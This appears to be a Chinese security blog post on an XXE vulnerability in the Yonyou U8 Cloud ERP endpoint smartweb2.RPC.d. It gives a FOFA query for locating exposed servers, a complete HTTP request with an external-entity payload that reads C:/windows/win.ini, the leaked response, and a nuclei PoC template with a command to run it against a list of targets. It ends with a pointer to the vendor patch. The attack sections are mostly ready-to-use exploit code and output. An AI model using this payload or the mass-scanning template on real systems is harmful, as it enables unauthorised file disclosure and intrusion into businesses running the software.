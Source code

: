 #  用友U8 Cloud smartweb2.RPC.d xxe漏洞   
原创 fgz  AI与网安   2024-02-25 07:27  
  
免  
责  
申  
明  
：**本文内容为学习笔记分享，仅供技术学习参考，请勿用作违法用途，任何个人和组织利用此文所提供的信息而造成的直接或间接后果和损失，均由使用者本人负责，与作者无关！！！**  
  
****  
**先介绍下什么是XXE漏洞？**  
  
  
    XXE漏洞全称XML External Entity Injection即xml外部实体注入漏洞，XXE漏洞发生在应用程序解析XML输入时，没有禁止外部实体的加载，导致可加载恶意外部文件，造成文件读取、命令执行、内网端口扫描、攻击内网网站、发起dos攻击等危害。xxe漏洞触发的点往往是可以上传xml文件的位置，没有对上传的xml文件进行过滤，导致可上传恶意xml文件。  
  
　　XXE漏洞是针对使用XML交互的Web应用程序的攻击方法，在XXE漏洞的基础上，发展出了Blind XXE漏洞。目前来看，XML文件作为配置文件（Spring、Struts2等）、文档结构说明文件（PDF、RSS等）、图片格式文件（SVG header）应用比较广泛，此外，网上有一些在线XML格式化工具也存在过问题。  
  
  
  
01  
  
—  
  
漏洞名称  
  
  
  
用友U8 Cloud smartweb2.RPC.d xxe漏洞  
  
  
  
  
02  
  
—  
  
漏洞影响  
  
  
用友U8 Cloud  
  
![](https://mmbiz.qpic.cn/mmbiz_png/lloX2SgC3BPxe8zs6eN3AwnSibNIoPrY5HeJGiacrWwQHrpCvSkQQz234SlR61TJyKY4aHDEcibBkkibyTrYo6bvHA/640?wx_fmt=png&from=appmsg "")  
  
  
  
03  
  
—  
  
漏洞描述  
  
  
用友U8 cloud 聚焦成长型、创新型企业的云 ERP，基于全新的企业互联网应用设计理念，为企业提供集人财物客、产供销于一体的云 ERP 整体解决方案，全面支持多组织业务协同、智能财务，人力服务、构建产业链智造平台，融合用友云服务实现企业互联网资源连接、共享、协同。该系统/hrss/dorado/smartweb2.RPC.d接口存在XXE漏洞，攻击者可以在xml中构造恶意命令，  
造成文件读取、命令执行、内网端口扫描、攻击内网网站、发起dos攻击等危害。  
  
  
04  
  
—  
  
FOFA搜索语句  
  
```
app="用友-U8-Cloud"
```  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/lloX2SgC3BPxe8zs6eN3AwnSibNIoPrY5PRB52YzIicBBh1qWkOuojmvG9qSicVJ5eicpTibbMHBNiaC2GgTsV0tHicIg/640?wx_fmt=png&from=appmsg "")  
  
  
05  
  
—  
  
漏洞复现  
  
  
向靶场发送如下数据包，查看  
C:/windows/win.ini文件  
```
POST /hrss/dorado/smartweb2.RPC.d?__rpc=true HTTP/1.1
Host: 192.168.40.131:8088
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 12_10) AppleWebKit/600.1.25 (KHTML, like Gecko) Version/12.0 Safari/1200.1.25
Content-Length: 260
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded

__viewInstanceId=nc.bs.hrss.rm.ResetPassword~nc.bs.hrss.rm.ResetPasswordViewModel&__xml=<!DOCTYPE z [<!ENTITY Password SYSTEM "file:///C://windows//win.ini" >]><rpc transaction="10" method="resetPwd"><vps><p name="__profileKeys">%26Password;</p ></vps></rpc>
```  
  
  
响应内容如下  
```
HTTP/1.1 200
Connection: close
Transfer-Encoding: chunked
Content-Encoding: gzip
Content-Type: text/xml
Date: Mon, 08 Jan 2024 03:01:36 GMT
Set-Cookie: JSESSIONID=F8DDC953199005CDEA9538451210E68E.server; Path=/hrss; HttpOnly

<?xml version="1.0"?>
<result succeed="false" >
<errorMessage></errorMessage>
<stackTrace><![CDATA[]]></stackTrace>
<viewProperties><p name="__profileKeys" value="; for 16-bit app support
[fonts]
[extensions]
[mci extensions]
[files]
[Mail]
MAPI=1
" dataType="0" /></viewProperties>
</result>
```  
  
  
响应数据包中含有  
C:/  
windows/  
win.ini文件内容，漏洞复现成功  
  
  
  
  
06  
  
—  
  
nuclei poc  
  
  
poc文件内容如下  
```
id: yonyou-u8-cloud-smartweb2-xxe

info:
  name: 用友U8-Cloud smartweb2.RPC.d XXE漏洞
  author: fgz
  severity: critical
  description: 用友U8 cloud 聚焦成长型、创新型企业的云 ERP，基于全新的企业互联网应用设计理念，为企业提供集人财物客、产供销于一体的云 ERP 整体解决方案，全面支持多组织业务协同、智能财务，人力服务、构建产业链智造平台，融合用友云服务实现企业互联网资源连接、共享、协同。该系统/hrss/dorado/smartweb2.RPC.d接口存在XXE漏洞，攻击者可以在xml中构造恶意命令，会导致服务器数据泄露以及被远控。
  metadata:
    max-request: 1
    fofa-query: app="用友-U8-Cloud"
    verified: true
requests:
  - raw:
      - |+
        POST /hrss/dorado/smartweb2.RPC.d?__rpc=true HTTP/1.1
        Host: {{Hostname}}
        User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 12_10) AppleWebKit/600.1.25 (KHTML, like Gecko) Version/12.0 Safari/1200.1.25
        Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3
        Accept-Encoding: gzip, deflate
        Accept-Language: zh-CN,zh;q=0.9
        Connection: close
        Content-Type: application/x-www-form-urlencoded
        
        __viewInstanceId=nc.bs.hrss.rm.ResetPassword~nc.bs.hrss.rm.ResetPasswordViewModel&__xml=<!DOCTYPE z [<!ENTITY Password SYSTEM "file:///C://windows//win.ini" >]><rpc transaction="10" method="resetPwd"><vps><p name="__profileKeys">%26Password;</p ></vps></rpc>

    matchers:
      - type: dsl
        dsl:
          - "status_code == 200 && contains(body, 'for 16-bit app')"
```  
  
  
运行POC  
```
nuclei.exe -t mypoc/用友/yonyou-u8-cloud-smartweb2-xxe.yaml -l data/用友-U8-Cloud.txt
```  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/lloX2SgC3BPxe8zs6eN3AwnSibNIoPrY5MYv3jdXMbpjTQqsGbQNViahZyGCr4p9HDGoZMYBiajp8kCV3J5IWpLkw/640?wx_fmt=png&from=appmsg "")  
  
  
07  
  
—  
  
修复建议  
  
  
用友安全中心已经发布安全补丁，参考官方信息进行漏洞修复。  
  
https://security.yonyou.com/#/patchList  
  
  
